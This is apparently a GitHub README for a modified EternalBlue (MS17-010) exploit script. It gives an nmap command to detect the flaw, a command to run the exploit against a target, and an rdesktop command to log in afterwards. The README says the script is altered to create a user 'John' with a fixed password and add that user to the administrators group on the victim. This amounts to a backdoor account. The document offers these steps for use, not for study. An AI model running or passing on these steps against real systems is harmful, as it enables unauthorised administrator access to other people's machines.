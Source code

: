 # EternalBlue
I have changed the script for create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

user    : John,
password: fadf24as

rdesktop -u John -p fadf24as <target_ip>
